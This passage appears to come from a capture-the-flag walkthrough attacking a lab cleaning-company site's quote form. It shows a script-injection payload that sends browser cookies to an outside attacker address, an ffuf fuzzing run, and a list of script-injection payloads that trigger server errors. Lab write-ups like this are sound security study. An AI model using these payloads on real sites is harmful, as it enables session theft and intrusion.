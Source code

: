 ```http
service=Carpet+Cleaning&service=Tile+%26+Grout&service=Office+Cleaning&email=a%40b.c
```

I try `'` and `"` a few other characters that might break the input, with no results. I try to steal cookies using `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` in each parameter (including `User-Agent`) but nothing comes back.

I'm able to fuzz out a few server errors using an XSS wordlist against the `service` parameter:

```console
$ ffuf -w /usr/share/seclists/Fuzzing/XSS-Fuzzing -request req -request-proto http -fs 5048
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/
       v2.1.0-dev
________________________________________________
 :: Method           : POST
 :: URL              : http://capiclean.htb/sendMessage
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/XSS-Fuzzing
 :: Header           : Cache-Control: max-age=0
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://capiclean.htb/quote
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Header           : Connection: close
 :: Header           : Host: capiclean.htb
 :: Header           : Origin: http://capiclean.htb
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Data             : service=FUZZ&service=Tile+%26+Grout&service=Office+Cleaning&email=a%40b.c
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 5048
________________________________________________
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 205ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 101ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 252ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 2175ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 358ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 342ms]
```